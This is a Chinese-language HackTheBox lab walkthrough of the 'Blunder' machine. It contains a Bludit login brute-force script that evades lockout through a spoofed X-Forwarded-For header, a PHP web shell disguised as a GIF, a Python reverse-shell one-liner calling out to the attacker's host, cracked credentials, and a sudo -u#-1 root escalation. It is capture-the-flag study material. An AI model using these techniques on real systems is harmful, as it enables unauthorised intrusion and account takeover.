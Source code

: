 ```yaml
---
layout: post
title:  "HackTheBox >_ Blunder_191"
description: walkthrough
category: HackTheBox
---
```

# Blunder_191

![image-20200917085411234]({{ site.url }}/assets/Blunder_191.assets/image-20200917085411234.png)

只开了80一个端口

![image-20200626081654031]({{ site.url }}/assets/Blunder_191.assets/image-20200626081654031.png)

![image-20200626094051228]({{ site.url }}/assets/Blunder_191.assets/image-20200626094051228.png)

![image-20200626094016377]({{ site.url }}/assets/Blunder_191.assets/image-20200626094016377.png)

robots.txt

![image-20200626094455402]({{ site.url }}/assets/Blunder_191.assets/image-20200626094455402.png)

![image-20200626094425214]({{ site.url }}/assets/Blunder_191.assets/image-20200626094425214.png)

似乎是后台登录页面。

![image-20200626094126497]({{ site.url }}/assets/Blunder_191.assets/image-20200626094126497.png)

![image-20200626094715869]({{ site.url }}/assets/Blunder_191.assets/image-20200626094715869.png)

[https://www.exploit-db.com/exploits/48568](https://www.exploit-db.com/exploits/48568)

![image-20200626095130450]({{ site.url }}/assets/Blunder_191.assets/image-20200626095130450.png)

![image-20200626095233595]({{ site.url }}/assets/Blunder_191.assets/image-20200626095233595.png)

虽然存在一个漏洞利用方法，但是明显需要有效凭证。

浏览了打出来的很多页面，但是没有更多信息了。

尝试fuzz根目录下的文件，看看是否有更多线索。

```bash
wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/big.txt -z list,txt-php-html -u http://10.10.10.191/FUZZ.FUZ2Z --hc 404,403 -t 100
```

![image-20200626093421355]({{ site.url }}/assets/Blunder_191.assets/image-20200626093421355.png)

![image-20200626094625579]({{ site.url }}/assets/Blunder_191.assets/image-20200626094625579.png)

CMS刚升级完，估计不存在漏洞利用。

让通知`fergus`新博客需要图片，那这个人可能是网站管理员。

看来我们拥有用户名和登录页面，剩下就是暴力破解了。

抓登录包分析

![image-20200626095651081]({{ site.url }}/assets/Blunder_191.assets/image-20200626095651081.png)

有token，常用暴力工具显然无法成功。google了一下发现了一个暴力脚本

[https://github.com/musyoka101/Bludit-CMS-Version-3.9.2-Brute-Force-Protection-Bypass-script/blob/master/bruteforce.py](https://github.com/musyoka101/Bludit-CMS-Version-3.9.2-Brute-Force-Protection-Bypass-script/blob/master/bruteforce.py)

修改已符合我们当前情况

```python
#!/usr/bin/env python3
import re
import requests

host = "http://10.10.10.191" # change to the appropriate URL

login_url = host + '/admin/login'
username = 'fergus' # Change to the appropriate username
fname = "wordlist.txt" #change this to the appropriate file you can specify the full path to the file
with open(fname) as f:
    content = f.readlines()
    word1 = [x.strip() for x in content] 
wordlist = word1

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```

![image-20200626122804028]({{ site.url }}/assets/Blunder_191.assets/image-20200626122804028.png)

![image-20200626123151467]({{ site.url }}/assets/Blunder_191.assets/image-20200626123151467.png)

```bash
fergus:RolandDeschain
```

成功登录

![image-20200626123606219]({{ site.url }}/assets/Blunder_191.assets/image-20200626123606219.png)

制作一个伪造的gif cmd shell，并上传

```bash
vim gif_shell.gif
```

![image-20200626125008147]({{ site.url }}/assets/Blunder_191.assets/image-20200626125008147.png)

![image-20200626124037477]({{ site.url }}/assets/Blunder_191.assets/image-20200626124037477.png)

![image-20200626124921379]({{ site.url }}/assets/Blunder_191.assets/image-20200626124921379.png)

我们伪造的后缀是gif，在上传时使用bp进行抓包，修改文件名后缀为php

![image-20200626124604872]({{ site.url }}/assets/Blunder_191.assets/image-20200626124604872.png)

验证

```bash
http://10.10.10.191/bl-content/tmp/gif_shell.php?cmd=id
```

![image-20200626124743230]({{ site.url }}/assets/Blunder_191.assets/image-20200626124743230.png)

执行命令，在1337端口监听以获得rshell

```bash
http://10.10.10.191/bl-content/tmp/gif_shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.189",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image-20200626125622567]({{ site.url }}/assets/Blunder_191.assets/image-20200626125622567.png)

经过一些搜寻枚举后发现

![image-20200626125827707]({{ site.url }}/assets/Blunder_191.assets/image-20200626125827707.png)

```bash
hugo:faca404fd5c0a31cf1897b823c695c85cffeb98d
```

![image-20200626125951359]({{ site.url }}/assets/Blunder_191.assets/image-20200626125951359.png)

```bash
hugo:Password120
```

直接切换用户

![image-20200626130223106]({{ site.url }}/assets/Blunder_191.assets/image-20200626130223106.png)

切换后的提权极为简单，`!root`参数，这种情况一句话即可提权`sudo -u#-1 /bin/bash`

参考[https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

先拿user.txt

![image-20200626130544741]({{ site.url }}/assets/Blunder_191.assets/image-20200626130544741.png)

提权

![image-20200626130810969]({{ site.url }}/assets/Blunder_191.assets/image-20200626130810969.png)

![image-20200626130950190]({{ site.url }}/assets/Blunder_191.assets/image-20200626130950190.png)

